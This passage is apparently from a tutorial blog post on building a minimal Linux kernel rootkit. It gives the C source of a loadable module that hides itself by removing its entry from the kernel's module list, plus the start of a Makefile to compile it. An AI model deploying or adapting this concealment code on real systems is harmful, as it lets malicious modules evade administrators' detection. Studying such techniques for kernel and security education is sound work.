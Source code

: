 So there are a lot of modules already. Our first task is to make our rootkit module invisible. To do this, first we must clean up some kernel structures:

{% codeblock lang:c  rootkitmod.c https://github.com/gotoco/low_level_stuff/blob/master/simplest_rootkit/rootkitmod.c see on github %}
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/rculist.h>
#include <linux/sysfs.h>


static int __init rootkit_init(void)
{
  struct module *mod = THIS_MODULE;
  printk(KERN_INFO "rootkit_mod loading.\n");

  printk(KERN_INFO "rootkit_mod hidind itself.\n");
/* Based at: kernel/module.c
   The mutex is because of risk another referencing to list.
   in kernel/module.c each list_del operation are in mutex
 */
  mutex_lock(&module_mutex);
  list_del(&mod->list);
  mutex_unlock(&module_mutex);

  printk(KERN_INFO "rootkit_mod done.\n");
  return 0;
}
module_init(rootkit_init);

static void __exit rootkit_exit(void)
{
  printk(KERN_INFO "rootkit_mod unloaded.\n");
}
module_exit(rootkit_exit);
{% endcodeblock %}

The first thing to do is to delete rootkit from modules list using **list_del()** function.
To check if the module became invisible compile it and run.

To compile the module we need Makefile:

{% codeblock lang:bash Makefile %}
KDIR := /usr/src/linux-headers-3.13.0-65-generic/ #HERE your kernel dir for x86
## for embedded boards should be folder with linux sources for board i.e.
#KDIR := /home/gotoco/olimex/A20/linux-sunxi
PWD := $(shell pwd)

obj-m += rootkitmod.o

all:
	make -C $(KDIR) \
                SUBDIRS=$(shell pwd) modules
